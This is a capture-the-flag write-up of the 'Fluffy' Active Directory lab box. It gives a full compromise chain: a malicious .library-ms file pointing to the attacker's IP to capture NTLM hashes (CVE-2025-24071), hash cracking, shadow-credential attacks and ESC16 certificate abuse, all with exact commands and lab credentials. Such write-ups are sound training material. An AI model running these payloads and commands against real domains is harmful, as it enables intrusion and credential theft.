


Fluffy
Fluffy was an easy-difficulty Windows Active Directory box that began with SMB share enumeration using provided credentials for J.Fleischman. Access to the IT share revealed system documentation detailing multiple vulnerabilities, including CVE-2025-24071, a critical vulnerability in Windows Explorer that causes it to automatically process .library-ms files whithin extracted archives.
I exploited CVE-2025-24071 by crafting a malicious .library-ms file containing a UNC path pointing to my attacking machine, then uploading it within a ZIP archive to the IT share. When a user extracted the archive, Windows Explorer automatically processed the library file and initiated an NTLM authentication attempt to my system. Using Responder, I captured the NTLMv2 hash for P.AGILA and successfully cracked it to reveal the password "prometheusx-303".
Post-compromise enumeration with BloodHound revealed that P.AGILA belonged to the Service Account Managers group, which had Generic All permissions over the Service Accounts group. This allowed me to add P.AGILA to the Service Accounts group, gaining Generic Write permissions over three service accounts: ca_svc, winrm_svc, and ldap_svc. I performed shadow credentials attacks against these accounts by modifying their msDS-KeyCredentialLink attributes, ultimately obtaining NTLM hashes through PKINIT authentication.
Using the winrm_svc hash, I gained initial user access via Evil-WinRM. For privilege escalation, I leveraged ca_svc's membership in the Certificate Publishers group and discovered the Certificate Authority was vulnerable to ESC16 (security extension globally disabled). I manipulated ca_svc's UPN attribute to impersonate the administrator, requested a certificate from a standard User template, then authenticated using the certificate to obtain the administrator's NTLM hash, leading to full domain compromise.
User flag
Initial nmap scan reveals a few interesting ports. The presence of Simple DNS Plus, Kerberos, as well as the domain name of fluffy.htb leads me to believe that I'll be dealing with an Active Directory scenario here.
Share enumeration
Since I was provided with credentials for J.Fleischman, I will begin by using netexec to check whether this user can access any non-standard shares.
nxc smb DC01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --shares
Joel has read/write permission over the non-standard IT share. I will use Impacket's smbclient script to browse through this share.
impacket-smbclient -dc-ip 10.10.11.69 fluffy.htb/j.fleischman:'J0elTHEM4n1990!'@10.10.11.69
The PDF document is an upgrade notice, which contains a list of vulnerabilities that the system is vulnerable to.
Capturing an NTLMv2 hash with CVE-2025-24071
I will check the critical CVEs first.
CVE-2025-24996 | External control of file name or path in Windows NTLM allows an unauthorized attacker to perform spoofing over a network.
https://nvd.nist.gov/vuln/detail/CVE-2025-24996
While this vulnerability may exist on the target system, there's no guarantee that any user would take an interest in an arbitrary file in the IT share.
On the other hand, CVE-2025-24071 is a vulnerability in Windows Explorer itself. It'll automatically parse any .library-ms files it finds after unzipping an archive.
There was a .zip archive in the IT share, along with its contents. This leads me to believe that if I upload an archive there, someone might unzip it and trigger the vulnerability.
A library-ms file is a Library Description file, which contains information about a library stored in an XML format. I can create a malicious library-ms file by modifying an example one from Microsoft.
https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@shell32.dll,-34575</name>
<ownerSID>S-1-5-21-379071477-2495173225-776587366-1000</ownerSID>
<version>1</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1002</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription publisher="Microsoft" product="Windows">
<description>@shell32.dll,-34577</description>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<simpleLocation>
<url>\\10.10.16.47\share</url>
</simpleLocation>
</searchConnectorDescription>
<searchConnectorDescription publisher="Microsoft" product="Windows">
<description>@shell32.dll,-34579</description>
<isDefaultNonOwnerSaveLocation>true</isDefaultNonOwnerSaveLocation>
<simpleLocation>
<url>knownfolder:{ED4824AF-DCE4-45A8-81E2-FC7965083634}</url>
<serialized>MBAAAEAFCAAA...HJIfK9AAAAAA</serialized>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
I changed the simpleLocation URL value to my machine's IP. The path doesn't need to be valid as I only need an authentication attempt, which will be initiated even if the path is invalid.
sudo responder -I tun0
In a different terminal tab, I started up Responder to capture NTLMv2 hashes. I then once again used impacket-smbserver to upload the malicious archive into the IT share, the only file inside being the malicious library-ms file.

A few seconds after I uploaded the file, Responder caught an NTLMv2 hash.
I'll crack it with hashcat.
hashcat -a 0 hash /usr/share/wordlists/rockyou.txt

P.AGILA | prometheusx-303
Bloodhound enumeration
After owning P.AGILA, I decided to see what they could do on the domain with Bloodhound.
bloodhound-python -c all -d fluffy.htb -u p.agila -p 'prometheusx-303' -dc DC01.fluffy.htb -ns 10.10.11.69 --zip
P.AGILA is a member of the Service Account Managers group, which has Generic All over Service Accounts. This means that P.AGILA can add members and themselves to the Service Accounts group.
The Service Accounts group has Generic Write over the 3 service accounts, meaning that its members can modify any attribute of these accounts.
Ca_svc is a member of the cert publishers group.
And winrm_svc is a member of the remote management users group.
Shadow credentials attack against the svc accounts
The shadow credentials attack works by writing into the msDS-KeyCredentialLink attribute of a target account. By adding a key credential pair to the account, it is then possible to perform Kerberos authentication as that account using PKINIT.
First, I will add P.AGILA to the Service Accounts group, which will allow me to attack the 3 service accounts. I'll use bloodyad to add myself to the group.
bloodyAD -d fluffy.htb -u p.agila -p 'prometheusx-303' --dc-ip 10.10.11.69 add groupMember 'Service Accounts' p.agila
Then I will use certipy-ad to add shadow credentials to each account, ultimately returning their NTLM hashes.
certipy-ad shadow auto -account winrm_svc -dc-ip 10.10.11.69 -dc-host DC01.fluffy.htb -u p.agila -p 'prometheusx-303'
I'll take the hash of winrm_svc, and I will remote into the machine with it using evil-winrm.
Root flag
After getting the user flag, I moved my focus to the ca_svc account. I'll use certipy-ad to search for vulnerable certificate templates on the domain.
Abusing ESC16 on the fluffy-DC01-CA
certipy-ad find -enabled -vulnerable -dc-ip 10.10.11.69 -u ca_svc -hashes ":ca0f4f9e9eb8a092addf53bb03fc98c8"
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally
The CA itself is vulnerable to ESC 16. In short, this means that every certificate issued by this CA will be vulnerable to ESC9(NO SECURITY EXTENSION).
I will use the ca_svc user to enroll in the user certificate template. P.AGILA has GenericWrite over the svc account, which will allow me to change their UPN and impersonate the administrator.
First, I'll change the UPN of ca_svc to administrator.
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.10.11.69 -upn administrator -user ca_svc update
Then I'll request a certificate from the user template. Since the account's UPN is now administrator, it should return an administrator.pfx file.
certipy-ad req -ca fluffy-DC01-CA -template user -target 10.10.11.69 -u ca_svc -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8'
Before using this certificate, I have to change the UPN of ca_svc to something other than administrator. Otherwise, it will be denied with a name-mismatch error, because there will be 2 accounts with the same UPN.
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user ca_svc update
Now I'll authenticate as administrator with this new certificate.
certipy-ad auth -pfx administrator.pfx -username administrator -dc-ip 10.10.11.69 -domain fluffy.htb
I will take this hash and I'll use it with evil-winrm to remote into the machine as the administrator.
Rooted!